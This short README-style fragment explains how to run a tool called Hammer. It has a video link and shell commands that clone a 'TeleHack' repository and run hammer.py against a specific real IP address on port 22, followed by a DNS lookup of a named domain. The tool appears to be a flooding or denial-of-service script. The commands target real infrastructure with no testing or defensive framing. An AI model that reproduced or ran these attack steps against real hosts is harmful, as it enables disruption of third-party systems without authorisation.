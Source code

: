 1. How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo) 

```

cd ~
git clone https://github.com/KingArmin/TeleHack
cd TeleHack

python3 hammer.py -s 136.243.159.172 -p 22

nslookup parsapp.vcp.ir

```
